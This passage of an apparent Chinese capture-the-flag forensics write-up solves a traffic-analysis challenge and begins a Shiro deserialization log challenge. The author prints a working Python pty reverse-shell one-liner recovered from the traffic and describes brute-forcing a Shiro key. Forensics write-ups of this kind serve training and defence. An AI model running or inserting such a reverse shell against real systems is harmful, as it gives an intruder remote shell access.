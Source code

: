 ### session-4

> 题目内容：通过什么命令反弹的shell，提交md5加密的32位小写字符串。

在流量的最后面，可以看到分别用了三种方式反弹shell，`/bin/sh`，`nc`和`python pty`方式。  
[![](assets/1702520939-c5bf0cd3b08ef5d93163e78f938a0360.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180149-a1ce8618-999e-1.png)  
但是只有最后一种方式反弹成功，其余两种都报了语法错误。具体命令是

```plain
import os,pty,socket;s=socket.socket();s.connect(("172.16.127.1",3333));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")
```

[![](assets/1702520939-1849a3f7e0ee95bfbda6e7697b446a50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180205-aba47da0-999e-1.png)  
所以这道题答案是**7b75e76b64a25bd3d04ea82880c6d462**

## easy\_shiro

### easy\_shiro-1

> 题目内容：shiro key是什么?

这道题给了日志文件，可以看到经典的shiro特征，`rememberMe=deleteMe;`。shiro攻击就是反序列化，反序列化肯定包含`java`这个关键字。  
[![](assets/1702520939-b87e3d029a1c0281e2e45120e838978a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180228-b9681f78-999e-1.png)  
通篇找下来没有发现key，那就只剩爆破的方法了。结果还没有shiro的密码本，正在一筹莫展的时候发现`fscan`有一个`shiro-key.yml`。里面存放着一些常用的shiro key。  
[![](assets/1702520939-8c7713cbaf4d61a4058b088f6cc3f88c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180240-c035187e-999e-1.png)  
并且还有一个go写的加密脚本，依葫芦画瓢写了个python的解密脚本。这方面解密还参考了这篇文章[Shiro反序列化分析带思路及组件检测笔记](https://xz.aliyun.com/t/8997#toc-1)
